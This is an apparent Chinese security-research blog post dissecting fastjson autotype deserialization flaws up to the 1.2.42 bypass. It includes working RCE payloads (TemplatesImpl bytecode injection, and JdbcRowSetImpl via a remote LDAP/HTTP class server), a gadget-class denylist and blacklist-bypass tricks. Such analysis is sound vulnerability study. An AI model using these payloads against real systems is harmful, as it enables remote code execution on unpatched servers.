

两个特性 用户可控制反序列化的对象 user类如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 package org.example;public class user private String name; private int age; private String hobby; public user () System.out.println("user构造函数user(无参数)" ); } public user (String name, int age, String hobby) System.out.println("user构造函数user(有参数)" ); this .name = name; this .age = age; this .hobby = hobby; } public String getName () System.out.println("user调用了getName" ); return name; } public void setName (String name) System.out.println("user调用了setName" ); this .name = name; } public int getAge () System.out.println("user调用了getAge" ); return age; } public void setAge (int age) System.out.println("user调用了setAge" ); this .age = age; } public String getHobby () System.out.println("user调用了getHobby" ); return hobby; } public void setHobby (String hobby) System.out.println("user调用了setHobby" ); this .hobby = hobby; } @Override public String toString () return "user{" + "name='" + name + '\'' + ", age=" + age + ", hobby='" + hobby + '\'' + '}' ; } }
然后是调用函数,我都是写在各种小test里，然后在main中调用
1 2 3 4 5 6 7 8 9 10 11 12 13 14 package org.example;import com.alibaba.fastjson.JSON;import com.alibaba.fastjson.serializer.SerializerFeature;public class Main public static void main (String[] args) test3(); } }
安全的使用方法： 先看正确的使用方法:
1 2 3 4 5 6 public static void test3 () String p1 = "{\"age\":18,\"hobby\":\"gaming\",\"name\":\"y\"}" ; user tmpuser = JSON.parseObject(p1, user.class); System.out.println(tmpuser.getAge()); }
可以看到输出中，出现了
user构造函数user(无参数)
这是因为需要构造user对象tmpuser。
user调用了setAge user调用了setHobby user调用了setName
这三个出现，是因为在构造过程中，给age，name，hobby这三个属性赋值了。
user调用了getAg 18
是tmpuser.getAge()这一行输出的。
限制死了反序列化的类型为user，这种由开发者控制的反序列化的类型，是安全的。
不安全的使用方法： 因为fastjson有一个特性，可以由用户指定反序列化的类型，通过@type字段。可以先设置另一个user2对象
代码如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 package org.example;public class user2 private String name; private int age; private String hobby; public user2 () System.out.println("user2构造函数user2(无参数)" ); } public user2 (String name, int age, String hobby) System.out.println("user2构造函数user2(有参数)" ); this .name = name; this .age = age; this .hobby = hobby; } public String getName () System.out.println("user2调用了getName" ); return name; } public void setName (String name) System.out.println("user2调用了setName" ); this .name = name; } public int getAge () System.out.println("user2调用了getAge" ); return age; } public void setAge (int age) System.out.println("user2调用了setAge" ); this .age = age; } public String getHobby () System.out.println("user2调用了getHobby" ); return hobby; } public void setHobby (String hobby) System.out.println("user2调用了setHobby" ); this .hobby = hobby; } @Override public String toString () return "user{" + "name='" + name + '\'' + ", age=" + age + ", hobby='" + hobby + '\'' + '}' ; } }
然后是调用代码：
1 2 3 4 5 6 7 8 public static void test4 () String p1 = "{\"@type\":\"org.example.user\",\"age\":18,\"hobby\":\"gaming\",\"name\":\"y\"}" ; String p2 = "{\"@type\":\"org.example.user2\",\"age\":18,\"hobby\":\"gaming\",\"name\":\"y\"}" ; System.out.println("JSON.parse(p1):" ); Object P1 = JSON.parse(p1); System.out.println("JSON.parse(p2):" ); Object P2 = JSON.parse(p2); }
输出结果如下：
可以将test()理解为一个函数，用户输入序列化后的字符串交给服务器，服务器对字符串进行反序列化，这里输入的p1,p2就可以理解为调用了两次函数。
调用getName方法 但反序列化字符串的函数不是parse而是parseObject时，就会调用对象中的getter类方法，比如getName，getAge,getHobby。
1 2 3 4 5 6 7 public static void test6 () String p1 = "{\"@type\":\"org.example.user\",\"age\":18,\"hobby\":\"gaming\",\"name\":\"y\"}" ; System.out.println("JSON.parse(p1):" ); Object P1 = JSON.parse(p1); System.out.println("JSON.parseObject(p1):" ); Object P2 = JSON.parseObject(p1); }
在了解这两种机制后，就可能会出现下面这种情况：代码中出现了 JSON.parseObject(p1); 可能设计初衷只是想解析反序列化”{"age":18,"hobby":"gaming","name":"y"}”这样的字符串，但是因为这两个特性，就可能出现一些意想不到的结果
调用流程分析 先来捋顺正常的调用，再来看漏洞的调用
正常流程 识别@type 使用如下代码，
1 2 3 4 5 public static void test7 () String p1 = "{\"@type\":\"org.example.user\",\"age\":18,\"hobby\":\"gaming\",\"name\":\"y\"}" ; System.out.println("JSON.parseObject(p1):" ); Object P2 = JSON.parseObject(p1); }
断点下载 Object P2 = JSON.parseObject(p1);
前面都是普通的调来调去，一直到这里
1 2 3 4 5 6 7 8 9 10 public Object parse (Object fieldName) final JSONLexer lexer = this .lexer; switch (lexer.token()) { ………… ………… case LBRACE: JSONObject object = new JSONObject(lexer.isEnabled(Feature.OrderedField)); return parseObject(object, fieldName); ………… …………
这里的lexer是由之前JSON.java中的
DefaultJSONParser parser = new DefaultJSONParser(text, ParserConfig.getGlobalInstance(), features);
这一行定义和赋值
在swtich中，识别到第一个字符串是{ (也就是 LBRACE )后，通过
return parseObject(object, fieldName);
进入到了parseObject函数中，这个函数还是在当前DefaultJSONParser.java文件中
经过几个判断后，进入到try finally 代码块中，这里面是一个for(;;)死循环，然后可以看到有一个判断
1 2 3 4 5 6 7 8 9 10 if (key == JSON.DEFAULT_TYPE_KEY && !lexer.isEnabled(Feature.DisableSpecialKeyDetect)) { String typeName = lexer.scanSymbol(symbolTable, '"' ); Class<?> clazz = TypeUtils.loadClass(typeName, config.getDefaultClassLoader()); if (clazz == null ) { object.put(JSON.DEFAULT_TYPE_KEY, typeName); continue ; } ……………… ………………
JSON.DEFAULT_TYPE_KEY是@type
lexer.isEnabled()会返回入参的mask字段，这边的Feature.DisableSpecialKeyDetect内容如下，所以!lexer.isEnabled(Feature.DisableSpecialKeyDetect)的结果为true
随后就获取到@type的value：org.example.user
这边的意思大概就是，通过识别到{开头，然后开始进行反序列化的字符从识别，识别到@type，意味着需要指定类进行java反序列化。这边的下一行
Class<?> clazz = TypeUtils.loadClass(typeName, config.getDefaultClassLoader());
就是加载制定的类以便于反序列化
加载指定类 在上面用loadlass加载完类后，继续这个if代码块，在最下面有一个
1 2 ObjectDeserializer deserializer = config.getDeserializer(clazz); return deserializer.deserialze(this , clazz, fieldName);
这边是为了获取反序列化器deserializer，跟进getDeserializer，因为type instanceof Class<?>，跳到 getDeserializer((Class<?>) type, type)中，
在这个getDeserializer，会经过一些替换处理，if判断，比如说会把$换成.
className = className.replace(‘$’, ‘.’);
会检测是否java.awt.开头等等。
最后因为传入的value是org.example.user，流程会来到461行的
derializer = createJavaBeanDeserializer(clazz, type);
跟进createJavaBeanDeserializer(),这个函数里的判断主要是围绕 asmEnable 变量的true和false来进行的，在一系列的处理后，来到了
1 JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, type, propertyNamingStrategy);
跟进这个build()函数，这函数内容也非常多，不过因为两个长的 if 代码块不会运行，所以可以忽略，重点是下面的三个 for 代码块，
其中第一个循环 for (Method method : methods) 是在指定的java类中找setter类方法。那些“函数命名以set开头，第四个字母大写”之类的条件，就是在这里进行判断处理的。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 String methodName = method.getName(); if (methodName.length() < 4 ) { continue ; } if (Modifier.isStatic(method.getModifiers())) { continue ; } if (!(method.getReturnType().equals(Void.TYPE) || method.getReturnType().equals(method.getDeclaringClass()))) { continue ; } Class<?>[] types = method.getParameterTypes(); if (types.length != 1 ) { continue ; } JSONField annotation = method.getAnnotation(JSONField.class); if (annotation == null ) { annotation = TypeUtils.getSuperMethodAnnotation(clazz, method); } if (annotation != null ) { if (!annotation.deserialize()) { continue ; } ordinal = annotation.ordinal(); serialzeFeatures = SerializerFeature.of(annotation.serialzeFeatures()); parserFeatures = Feature.of(annotation.parseFeatures()); if (annotation.name().length() != 0 ) { String propertyName = annotation.name(); add(fieldList, new FieldInfo(propertyName, method, null , clazz, type, ordinal, serialzeFeatures, parserFeatures, annotation, null , null )); continue ; } } if (!methodName.startsWith("set" )) { continue ; } char c3 = methodName.charAt(3 );String propertyName; if (Character.isUpperCase(c3) || c3 > 512 ) { if (TypeUtils.compatibleWithJavaBean) { propertyName = TypeUtils.decapitalize(methodName.substring(3 )); } else { propertyName = Character.toLowerCase(methodName.charAt(3 )) + methodName.substring(4 ); } } else if (c3 == '_' ) { propertyName = methodName.substring(4 ); } else if (c3 == 'f' ) { propertyName = methodName.substring(3 ); } else if (methodName.length() >= 5 && Character.isUpperCase(methodName.charAt(4 ))) { propertyName = TypeUtils.decapitalize(methodName.substring(3 )); } else { continue ; }
在处理的最后，会使用add()将找到的方法加进fieldList中，（add中的FieldInfo，会涉及到下面的getonly参数）
1 2 add(fieldList, new FieldInfo(propertyName, method, field, clazz, type, ordinal, serialzeFeatures, parserFeatures, annotation, fieldAnnotation, null ));
第二个for (Field field : clazz.getFields())是遍历所有public的方法，
第三个与第一个类似，不过是getter方法
getonly参数 在构造函数FieldInfo()中，有一个东西需要注意，getonly参数，如果getonly参数为false，会导致在return deserializer.deserialze(this, clazz, fieldName);内的调试出现问题，没办法跟踪代码，（具体是为啥不是很清楚，以后可以研究一下），需要让getonly参数为true，主要代码在FieldInfo.java中下面的代码。有两个条件，
第一是代码要在走到这个FieldInfo.java中，这里需要从JavaBeanInfo.java中的add(fieldList, new FieldInfo(propertyName, method, null, clazz, type, 0, 0, 0, annotation, null, null));进去，
第二个是这里的第二个if ((types = method.getParameterTypes()).length == 1)
为了后续方便调试，这个参数需要为true，在FieldInfo()中，这个参数为true，需要 method.getParameterTypes()的长度不为1，
1 if ((types = method.getParameterTypes()).length == 1 )
然而在第一个for (Method method : methods) 循环中，有这样一个判断
1 2 3 4 Class<?>[] types = method.getParameterTypes(); if (types.length != 1 ) { continue ; }
所以在第一个for循环中，是永远不能使getonly为true的。因为如果参数不为1,那就会被continue，代码根本走不到add()；如果参数为1,代码在走到了add(),那getonly就只能为false了。
所以需要看第二个for循环。
第二个for循环是找getter函数，构造的函数需要满足以下几个条件
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 if (methodName.length() < 4 ) { continue ; } if (Modifier.isStatic(method.getModifiers())) { continue ; } if (methodName.startsWith("get" ) && Character.isUpperCase(methodName.charAt(3 ))) { if (method.getParameterTypes().length != 0 ) { continue ; } if (Collection.class.isAssignableFrom(method.getReturnType()) || Map.class.isAssignableFrom(method.getReturnType()) || AtomicBoolean.class == method.getReturnType() || AtomicInteger.class == method.getReturnType() || AtomicLong.class == method.getReturnType() ) { ………… FieldInfo fieldInfo = getField(fieldList, propertyName); if (fieldInfo != null ) { continue ; } ………… add(fieldList, new FieldInfo(propertyName, method, null , clazz, type, 0 , 0 , 0 , annotation, null , null )); ………… }
所以为了将getonly变量为true，所需要构造的getter函数就可以简单写为
1 2 3 4 5 6 7 8 9 10 11 public AtomicBoolean getKey2 () AtomicBoolean re = null ; System.out.println("user调用了setKey2" ); this .key1 = key1; this .key2 = key2; return re; }
之后，代码跳出JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, type, propertyNamingStrategy); 向下走到
1 2 3 4 5 6 7 8 9 10 11 for (FieldInfo fieldInfo : beanInfo.fields) { if (fieldInfo.getOnly) { asmEnable = false ; break ; } ………… } ………… if (!asmEnable) { return new JavaBeanDeserializer(this , clazz, type); }
然后就可以将asmEnable设置为false，随后 return new JavaBeanDeserializer(this, clazz, type); 结束函数。
在return的时候，是new了一个新的JavaBeanDeserializer，所以还会在走一边之前的三个for循环那块的流程，然后退出到ParseConfig.java的derializer = createJavaBeanDeserializer(clazz, type);，再继续退出当前的getDeserializer()函数，回到getDeserializer()，最后退出到DefaultJSONParser.java的
1 2 ObjectDeserializer deserializer = config.getDeserializer(clazz); return deserializer.deserialze(this , clazz, fieldName);
反序列化 通过调整getter函数，使用ObjectDeserializer deserializer = config.getDeserializer(clazz);获取到反序列化器后
退出到DefaultJSONParser.java的return deserializer.deserialze(this, clazz, fieldName);后，
跟进deserialze()方法，跳过一些重载方法后，来到JavaBeanDeserializer.java文件中。走到object = createInstance(parser, type);时。这里是新建一个实例，在这里面有一句object = constructor.newInstance();会执行指定了类的构造方法
之后在fieldDeser.setValue(object, fieldValue);中跟进，里面在经过层层if判断和其他的处理后，有一行反射代码method.invoke(object, value);
在这执行了之前加入到fieldList的setter函数，
这里是setName
而被执行的getter方法，是在JSON.java的return (JSONObject) JSON.toJSON(obj);中被调用的，在使用parse()将字符串反序列化为对象后，判断对象类型是否是JSON，如果不是，就再使用toJSON()函数处理一下obj。
在toJSON中，通过ObjectSerializer serializer = config.getObjectWriter(clazz);获取ObjectSerializer：
在获取到ObjectSerializer后，在Map<String, Object> values = javaBeanSerializer.getFieldValuesMap(javaObject);里面执行的getter方法，具体来看：
getFieldValuesMap() –> getter.getPropertyValue(object) -> Object propertyValue = fieldInfo.get(object);
1 2 3 4 5 public Object get (Object javaObject) throws IllegalAccessException, InvocationTargetException if (method != null ) { Object value = method.invoke(javaObject, new Object[0 ]); return value; }
测试执行命令 假如说在代码中有一个这样的类
1 2 3 4 5 6 7 8 9 package org.example;import java.io.IOException;public class testcmd public void setCmd (String cmd) throws IOException Runtime.getRuntime().exec(cmd); } }
如果想要通过fastjson执行命令，可以这样写
1 2 3 4 public static void test7(){ String cmd = "{\"@type\":\"org.example.testcmd\",\"cmd\":\"gnome-calculator\"}"; Object P2 = JSON.parseObject(cmd); }
寻找利用链 对于java版本
RMI利用的JDK版本≤ JDK 6u132、7u122、8u113
LADP利用JDK版本≤ 6u211 、7u201、8u191
TemplatesImpl 环境
ubuntu 22.04
java version “1.8.0_102”
poc：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import javassist.ClassPool;import javassist.CtClass;import org.apache.commons.codec.binary.Base64;………… public static void test10 () throws Exception ClassPool pool = ClassPool.getDefault(); CtClass cc = pool.get(test.class.getName()); String cmd = "java.lang.Runtime.getRuntime().exec(\"gnome-calculator\");" ; cc.makeClassInitializer().insertBefore(cmd); String randomClassName = "akka1" + System.nanoTime(); cc.setName(randomClassName); cc.setSuperclass((pool.get(AbstractTranslet.class.getName()))); byte [] evilCode = cc.toBytecode(); String evilCode_base64 = Base64.encodeBase64String(evilCode); System.out.println(evilCode_base64); final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl" ; String payload = "{\"" + "@type\":\"" + NASTY_CLASS + "\"," + "\"" + "_bytecodes\":[\"" + evilCode_base64 + "\"]," + "'_name':'asd','" + "_tfactory':{ },\"" + "_outputProperties\":{ }," + "\"" + "_version\":\"1.0\",\"" + "allowedProtocols\":\"all\"}\n" ; ParserConfig config = new ParserConfig(); System.out.println("payload:" +payload); Object obj = JSON.parseObject(payload, Object.class, config, Feature.SupportNonPublicField); }
pom.xml
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 <dependencies > <dependency > <groupId > com.alibaba</groupId > <artifactId > fastjson</artifactId > <version > 1.2.24</version > </dependency > <dependency > <groupId > org.javassist</groupId > <artifactId > javassist</artifactId > <version > 3.19.0-GA</version > </dependency > <dependency > <groupId > commons-codec</groupId > <artifactId > commons-codec</artifactId > <version > 1.10</version > </dependency > </dependencies >
首先该类中存在一个成员属性 _class，是一个 Class 类型的数组，数组里下标为_transletIndex 的类会在 getTransletInstance() 方法中使用 newInstance() 实例化。如下：
往回找，com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl类中的 getOutputProperties() 方法调用 newTransformer() 方法，而 newTransformer() 又调用了 getTransletInstance() 方法。
getOutputProperties() -> newTransformer() -> getTransletInstance()
而 getOutputProperties() 方法就是类成员变量 _outputProperties 的 getter 方法。所以在使用fastjson反序列化时，如果设置了 _outputProperties 变量，就能在反序列化的过程中执行getOutputProperties()方法。
现在需要知道这个 _class[_transletIndex]是否能由用户控制，_transletIndex也是一个变量，初始值为-1。
ctrl+左键查找一下_class，发现在TemplatesImpl()、readObject()、defineTransletClasses()中都有赋值的操作。
其中 defineTransletClasses() 在 getTransletInstance() 中，如果 _class 为空即会被调用，看一下 defineTransletClasses() 的逻辑
首先需要_bytecodes不为空，不然会报错结束这个方法。然后会调用自定义的 ClassLoader 去加载 _bytecodes 中的 byte[] 。而 _bytecodes 也是该类的成员属性。
在for循环中的if判断是为了判断这个类的父类是否为 ABSTRACT_TRANSLET 也就是com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet。如果是，就会将类成员属性的_transletIndex 设置为当前循环中的标记位，比如说_bytecodes这个列表里面只有一个元素，此时for循环i=0,如果父类为 ABSTRACT_TRANSLET ，则_transletIndex 就为0。
另外，_bytecodes和_name都是没有setter方法的私有变量，所以想要在反序列化的时候为这两个变量赋值，需要在parseObject()时设置Feature.SupportNonPublicField；关于私有属性赋值的细节，我放在后面写一下。
整个利用链为：
构造一个 TemplatesImpl 类的反序列化字符串，其中 _bytecodes 是我们构造的恶意类的类字节码，这个类的父类需要是 AbstractTranslet，最终这个类会被加载并使用 newInstance() 实例化。
在反序列化过程中，由于getter方法 getOutputProperties()，满足条件，将会被 fastjson 调用，而这个方法触发了整个漏洞利用流程：getOutputProperties() -> newTransformer() -> getTransletInstance() -> defineTransletClasses() / EvilClass.newInstance().
_bytecodes私有属性的赋值 fastjson在反序列化字符串的时候，
先准备这样一个类
user4.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 package org.example;import java.util.concurrent.atomic.AtomicBoolean;public class user4 private String key1; private String key2; private String _key3; public String _key4; public void setKey1 (String key1) System.out.println("user调用了setKey" ); this .key1 = key1; } public void setKey2 (String key2) System.out.println("user调用了setKey2" ); this .key2 = key2; } public user4 () System.out.println("user构造函数user(无参数)" ); } public user4 (String key1,String key2) System.out.println("user构造函数user(有参数)" ); this .key1 = key1; this .key2 = key2; } @Override public String toString () return "user{" + "key1='" + key1 + '\'' + ", key2='" + key2 + '\'' + ", key3='" + _key3 + '\'' + ", key4='" + _key4 + '\'' + '}' ; } }
然后是poc代码
1 2 3 4 5 6 7 public static void test13 () String p1 = "{\"@type\":\"org.example.user4\",\"key1\":\"key11\",\"key2\":\"key22\",\"_key3\":\"key33\",\"_key4\":\"key44\"}" ; System.out.println("JSON.parse(p1):" ); Object P1 = JSON.parse(p1); System.out.println("===> " +P1.toString()); }
在user4里面，有四个变量key1，key2，key3，key4，其中key1，key2和key3都是私有变量(private)，但是key1和key2有setter类方法，key3则没有，而key4是公共变量(public)。所以在没有设置Feature.SupportNonPublicField时，totring()返回结果为===> user{key1='key11', key2='key22', key3='null', key4='key44'}。其中key3无法被赋值，为null。
而在设置了Feature.SupportNonPublicField后，key3就赋值成功了。
具体流程分析
在经过一次次回溯后，找到JavaBeanDeserializer.java#parseField()中。
当没有设置Feature.SupportNonPublicField时，fieldDeserializer为null，在经过parser.parseExtra(object, key)后就结束了（如上图），而在设置了Feature.SupportNonPublicField后，ieldDeserializer不为null，代码就会走到下面的fieldDeserializer.parseField(parser, object, objectType, fieldValues)中，在这里面通过`setValue(object, value) –> field.set(object, value)将_key3通过反射进行赋值，
现在来看一下fieldDeserializer是如何被Feature.SupportNonPublicField影响的。
定义：没有区别
1 FieldDeserializer fieldDeserializer = smartMatch(key);
赋值：
这是设置了Feature.SupportNonPublicField的。如果没设置这个特性，直接走不到这个地方。
代码会在这个判断中返回false，自然就无法在里面为fieldDeserializer赋值
这个判断里，fieldDeserializer == null默认为true，此时没有设置特性，所以后面两个都是false，当设置了特性后，parser.lexer.isEnabled(mask) 的结果就为true了，
1 2 3 4 5 fieldDeserializer == null && ( parser.lexer.isEnabled(mask) || (this.beanInfo.parserFeatures & mask) != 0) )
细看parser.lexer.isEnabled(mask) 方法，在没有设置Feature.SupportNonPublicField时，this,features的值为989, 函数传入的feature参数为131072,通过&进行与运算时，值为0。在设置了Feature.SupportNonPublicField后，this,features的值为变成了132061, 函数传入的feature参数依然为131072,过&进行与运算时，值为00000000000000100000000000000000，十进制就是131072。
由此可以得知，当代码进行到这个if判断是，它会用final int mask = Feature.SupportNonPublicField.mask;的mask和JSONLexerBase类的this.features进行与运算。由于在JSON.parse(p1,Feature.SupportNonPublicField);中加入了Feature.SupportNonPublicField，所以会导致两次的this.features的值不一样，进而导致parser.lexer.isEnabled(mask) 结果不一样。
细看一下这个枚举类型 Feature。代码如下。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 package com.alibaba.fastjson.parser;public enum Feature AutoCloseSource, AllowComment, AllowUnQuotedFieldNames, AllowSingleQuotes, InternFieldNames, AllowISO8601DateFormat, AllowArbitraryCommas, UseBigDecimal, IgnoreNotMatch, SortFeidFastMatch, DisableASM, DisableCircularReferenceDetect, InitStringFieldAsEmpty, SupportArrayToBean, OrderedField, DisableSpecialKeyDetect, UseObjectArray, SupportNonPublicField ; Feature(){ mask = (1 << ordinal()); } public final int mask; public final int getMask () return mask; } public static boolean isEnabled (int features, Feature feature) return (features & feature.mask) != 0 ; } public static int config (int features, Feature feature, boolean state) if (state) { features |= feature.mask; } else { features &= ~feature.mask; } return features; } public static int of (Feature[] features) if (features == null ) { return 0 ; } int value = 0 ; for (Feature feature: features) { value |= feature.mask; } return value; } }
这个枚举类定义了
AutoCloseSource,
AllowComment,
AllowUnQuotedFieldNames,
AllowSingleQuotes,
InternFieldNames,
AllowISO8601DateFormat,
AllowArbitraryCommas,
UseBigDecimal,
IgnoreNotMatch,
SortFeidFastMatch,
DisableASM,
DisableCircularReferenceDetect,
InitStringFieldAsEmpty,
SupportArrayToBean,
OrderedField,
DisableSpecialKeyDetect,
UseObjectArray,
SupportNonPublicField
一共18个变量，通过mask = (1 << ordinal());移位进行赋值，比如AutoCloseSource的值其实是2^0=1，AllowComment的值其实是2^1=2,10(2)，而UseBigDecimal的值其实是2^7=127，10000000(2)，最后的SupportNonPublicField则是2^17=131072，100000000000000000(2)。一个参数代表一个二进制位，这样如果设置了多个值，就只需要把他们加起来就好了。
比如在fastjson初始化时,会有一个设置初始DEFAULT_PARSER_FEATURE的过程，最后初始化出来的DEFAULT_PARSER_FEATURE结果就是989，1111011101(2)，下面还有DEFAULT_GENERATE_FEATURE的初始化。也是一样的。
正常情况下使用JSON.parse(p1);初始化features用的就是DEFAULT_PARSER_FEATURE（989）。这就会导致在parser.lexer.isEnabled(mask) 时，返回false。
而在使用JSON.parse(p1,Feature.SupportNonPublicField);时，parse会进入parse(String text, Feature… features)中，将设置的feature值和DEFAULT_PARSER_FEATURE相加后再进入到parse(String text, int features)中。
JdbcRowSetImpl 环境
ubuntu 22.04
java version “1.8.0_102”
marshalsec-0.0.3-SNAPSHOT-all.jar （sha1 22f311752a1c6ce1102bcb199458c8d10118ae6e）
poc：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 import java.lang.Runtime;import java.lang.Process;public class Calc static { try { Runtime rt = Runtime.getRuntime(); String[] commands = {"gnome-calculator" }; Process pc = rt.exec(commands); pc.waitFor(); } catch (Exception e) { } } }
javac Calc.java生成Calc.class后，使用python起一个web服务。
sudo python3 -m http.server 8888
然后使用marshalsec-0.0.3-SNAPSHOT-all.jar起一个LDAP服务
再然后idea里的代码如下：
1 2 3 4 public static void test11 () String cmd = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://192.168.56.213:9999/calc\", \"autoCommit\":true}" ; Object P2 = JSON.parseObject(cmd); }
流程分析：
在com.sun.rowset.JdbcRowSetImpl类中，有一个setAutoCommit类，完全符合fastjson自动调用的setter方法的条件：长度大于4、非静态、void返回、set后的字母大写、参数为1。需要payload中有”autoCommit":true。设置为true，是为了让这个函数能执行this.connect()。这个connect()才是执行命令的关键
ctrl+左键进入connect()内，可以看到危险代码(DataSource)var1.lookup(this.getDataSourceName());关键是这个lookup(),目标在进行lookup()操作时，会动态加载并实例化Factory类，接着调用factory.getObjectInstance()获取外部远程对象实例；攻击者可以在Factory类文件的静态代码块处写入恶意代码，达到RCE的效果；
1.2.25 影响版本：1.2.25 <= fastjson <= 1.2.41
在版本 1.2.25 中，官方对之前的反序列化漏洞进行了修复，引入了 checkAutoType 安全机制，默认情况下 autoTypeSupport 关闭，不能直接反序列化任意类，而打开 AutoType 之后，是基于内置黑名单来实现安全的，fastjson 也提供了添加黑名单的接口。
之前的流程相同，关键点在DefaultJSONParser.java中，原本获取clazz是通过
1 Class<?> clazz = TypeUtils.loadClass(typeName, config.getDefaultClassLoader());
修复之后，获取clazz多了一层checkAutoType，变成了
1 Class<?> clazz = config.checkAutoType(typeName, null );
真正获取clazz的代码，在checkAutoType中，在经过一些黑白名单过滤后，autoTypeSupport不为空，才会通过下面的代码获取clazz然后作为返回值返回到DefaultJSONParser.java中。
1 2 3 4 5 6 7 8 public Class<?> checkAutoType(String typeName, Class<?> expectClass) { ………… if (autoTypeSupport || expectClass != null ) { clazz = TypeUtils.loadClass(typeName, defaultClassLoader); } ………… return clazz; }
之后进入到ParserConfig.java中，在这里面，设置了autoTypeSupport的默认值为false，以及一个denylist黑名单共22条，上一轮用到的com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl和com.sun.rowset.JdbcRowSetImpl都被包含其中。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 bsh com.mchange com.sun. java.lang.Thread java.net.Socket java.rmi javax.xml org.apache.bcel org.apache.commons.beanutils org.apache.commons.collections.Transformer org.apache.commons.collections.functors org.apache.commons.collections4.comparators org.apache.commons.fileupload org.apache.myfaces.context.servlet org.apache.tomcat org.apache.wicket.util org.codehaus.groovy.runtime org.hibernate org.jboss org.mozilla.javascript org.python.core org.springframework
在默认情况下，没办法进行反序列化。
开启autotype 可以使用这两种方法开启autotype
JVM启动参数
1 -Dfastjson.parser.autoTypeSupport =true
代码中设置
1 ParserConfig.getGlobalInstance ().setAutoTypeSupport (true);
checkAutoType() 逻辑 如果开启了autoType或expectClass不为null，先判断类名的开头是否在白名单中，如果在，就使用 TypeUtils.loadClass 加载，如果不在白名单，就判断类名的开头是否在黑名单中，如果在就抛出异常。如果黑名单也没有，就跳出这个判断往后走。
而如果没开启autoType，就先判断类名的开头是否在黑名单中，如果在就抛出异常。如果不在则使用白名单匹配和加载。最后，如果要反序列化的类和黑白名单都未匹配时，只有开启了 autoType 或者 expectClass 不为空也就是指定了 Class 对象时才会调用 TypeUtils.loadClass 加载。
在 TypeUtils.loadClass 中，有这样一个判断，如果类名是以”L”开头且以”;”结尾，就把他们去掉，取中间的值。这样，当我们把类名改为Lcom.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;时，就可以绕过前面的白名单，然后在后面的 TypeUtils.loadClass 中，它被改为com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl。后面就和1.2.24一样了。所以这个版本的绕过是一个逻辑漏洞 。
1.2.42 影响版本：1.2.25 <= fastjson <= 1.2.42
在版本 1.2.42 中，fastjson 继续延续了黑白名单的检测模式，但是将黑名单类从白名单修改为使用 HASH 的方式进行对比，这是为了防止安全研究人员根据黑名单中的类进行反向研究，用来对未更新的历史版本进行攻击。同时，作者对之前版本一直存在的使用类描述符绕过黑名单校验的问题尝试进行了修复。
这次在checkAutoType()中添加了对”L”和”;”的过滤。先不看这个if判断。假如if为True，然后代码就将”L”和”;”去掉，看到这个的时候，应该就能想到直接写两个”L”和”;”就可以绕过了。
1 2 3 4 5 6 7 8 if ((((BASIC ^ className.charAt(0 )) * PRIME) ^ className.charAt(className.length() - 1 )) * PRIME == 0x9198507b5af98f0L ) { className = className.substring(1 , className.length() - 1 ); }
现在来看这个比较绕的if判断。优化一下大概长这样。
